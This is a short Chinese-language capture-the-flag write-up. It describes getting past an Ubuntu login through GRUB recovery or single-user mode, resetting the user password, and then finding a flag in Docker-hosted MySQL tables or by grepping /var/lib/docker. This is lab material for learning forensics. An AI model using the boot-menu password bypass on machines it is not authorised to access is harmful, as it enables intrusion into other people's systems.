绕过 绕过方法：长按shift进入GRUB，选择advanced options for ubuntu，选择

recovery mode，进入菜单 选择root，press enter，输入passwd hznuctfer，输入

密码，重启（reboot）

---

2.输入重新设置的密码，成功进入，桌面直接看到mimi,txt。点开就可以发现像是命令行

history，分析 一下就可以看到其实就是开了两个docker容器，显而易见下一步就是进到

容器里找东西

---

3.直接运行创建容器的命令，得到原有的镜像ID（因为会自动报错，回显已经占用的ID)，

docker start 9e7aa，可以看到mysql类型的容器TeamGipsyctf1已经开启，同样方法

开启TeamGipsyctf2

---

4.docker exec -it ID /bin/bash命令进入对应容器 启动mysql mysql -uroot

-p，密码就在mimi.txt中，输入password_is_me，进入数据库，show databases;

发现特殊database，use TeamGipsy;

---

5.show tables; 看表名，CTF和TG选一个找，最终在TG的flaghere中得到flag 语句：

select * from TG

---

还有另一种解法，不需要用到docke操作

狂按ESC键进到GRUP里面，加一个single

成功进入终端

发现用户桌面有个mimi.txt

是history历史操作，对docker有操作，目前终端docker没有启动，passwd改一下用户的密码，exit退出single模式进入系统，方便操作

​	docker image list只有个mysql的镜像，其他的应该是被删了

​	于是猜想flag应在在docker镜像的目录里面

​	由于没学过docker的文件结构

​	直接grep搜索找一下flag，注意sudo

```
grep -r CTF{ /var/lib/docker
```


